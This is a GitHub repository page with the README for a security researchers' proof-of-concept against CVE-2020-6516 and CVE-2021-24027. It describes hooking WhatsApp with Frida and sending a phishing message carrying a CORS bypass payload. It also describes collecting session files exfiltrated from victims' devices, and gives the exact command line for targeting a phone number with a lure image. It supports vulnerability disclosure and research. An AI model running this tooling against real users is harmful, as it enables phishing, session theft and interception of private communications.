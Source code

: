 # whatsapp-mitd-mitm

PoC and tools for exploiting CVE-2020-6516 (Chrome) and CVE-2021-24027 (WhatsApp)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/CENSUS](https://github.com/CENSUS) |
| Url      | [https://github.com/CENSUS/whatsapp-mitd-mitm](https://github.com/CENSUS/whatsapp-mitd-mitm)                                               |
| Stars    | 141                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# WhatsApp MitD & MitM

## Introduction

This repository contains PoC code and tools that were developed as part of our
research [01] on remotely exploiting *Man-in-the-Disk* (MitD) vulnerabilities on
WhatsApp for Android. As discussed in our blog post, the code and accompanying
scripts found here, were used to exploit CVE-2020-6516 (Chrome) [02] and
CVE-2021-24027 (WhatsApp) [03].

The structure of this repository is as follows:

* The current directory contains the Python tool that hooks WhatsApp using Frida,
  sends the phishing message carrying the CORS bypass payload and runs an HTTP
  server, where exfiltrated session files from the victim device are sent to.

* **tls12\_psk\_extract/** contains the TLS v1.2 MitM toolset. See **README.md**
  in that directory for more information on how to prepare a MitM environment.

* **watls\_psk\_extract/** contains the TLS v1.3 (WaTLS) MitM toolset. See
  **README.md** in that directory for more information on how to prepare a MitM
  environment.

* **openssl-1.1.1f-patches/** contains OpenSSL 1.1.1f patches required for
  setting up TLS v1.2 and/or TLS v1.3 MitM environments.

* **secrets/** holds a simple shell script and an OpenSSL configuration for
  generating certificates similar to those used by the WhatsApp TLS v1.3
  infrastructure. The generated keys and certificates can be used for both
  TLS v1.2 and v1.3 MitM.

* Last but not least, **misc/** contains various Frida scripts that were used
  for testing and debugging purposes during our research and might be helpful to
  other researchers.


## Usage

To test the PoC you need an Android device running WhatsApp 2.20.206.22 [04].
Even though our code was initially developed for 2.19.355, and so you can find
the corresponding snippets under **frida_scripts/**, that version is nowadays
considered "expired" and won't work.

Before firing up the PoC, it is a good idea to compile as little as possible of
WhatsApp's DEX code. Doing so might proactively help in avoiding issues like
Frida not being able to hook specific methods.

    adb shell
    am force-stop com.whatsapp
    pm compile -f -m space com.whatsapp
    am start com.whatsapp/.Main

Download Frida server and push it on your Android device under **/data/local/tmp**,
leaving the default file name as is. Version 12.8.10 is tested and known to work
well. Feel free to download a more recent one if you prefer to. The PoC will
automatically detect the Frida server binary and will attempt to execute it with
the appropriate command line arguments.

    cd /tmp
    curl -O https://github.com/frida/frida/releases/download/12.8.10/frida-server-12.8.10-android-arm64.xz
    xz -d frida-server-12.8.10-android-arm64.xz
    adb push frida-server-12.8.10-android-arm64 /data/local/tmp

The main logic of the exploit is implemented in **main.py**. Files **adb.py**
and **frida_util.py** are trimmed down versions of tools that we use internally
for various debugging tasks on Android devices.

To run the PoC, attach your Android device on your computer and run the
following command:

    python3 main.py -s ANDROID_SERIAL -a 192.168.1.100 -p 8000 -r \
        images/the_guardian.jpg MOBILE_NUMBER@s.whatsapp.net "Rush for Mediterranean gas"

The command line switches passed to **main.py** are the following:

* `-s` - The serial number of the Android device to use, in case the attacker
  has multiple Android devices attached on her computer.

* `-a` and `-p` - Address and port, respectively, of the HTTP server where the
  exfiltrated sessions will be sent to.

* `-r` - Instructs **main.py** to start the aforementioned HTTP server on the
  local computer. If you don't pass `-r`, make sure you run **server.py** on the
  host specified by `-a` and `-p`.

Positional arguments are the following:

* **images/guardian.jpg** - A JPG image that will be used as a fake message
  preview, in order to lure the victim into clicking on it.

* **MOBILE_NUMBER@s.whatsapp.net** - The victim's mobile phone number in WhatsApp
  format. This is usually the country prefix followed by the mobile number. For
  example, Greek numbers (+30) look like `301234567890@s.whatsapp.net`.

* **"Rush for Mediterranean gas"** - An arbitrary string to be used as the
  message caption.

For a real life usage example, have a look at our blog post, and more specifically
at the demonstration videos.


## References

[01] <https://www.census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/>

[02] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-6516>

[03] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24027>

[04] <https://www.apkmirror.com/apk/whatsapp-inc/whatsapp/whatsapp-2-20-206-22-release/whatsapp-messenger-2-20-206-22-android-apk-download/>




## Get the content

```
git clone https://github.com/CENSUS/whatsapp-mitd-mitm
cd whatsapp-mitd-mitm
```

{% embed url="https://github.com/CENSUS/whatsapp-mitd-mitm" %}

<figure><img src="https://avatars.githubusercontent.com/u/11769276?v=4" alt=""><figcaption><p>CENSUS</p></figcaption></figure>
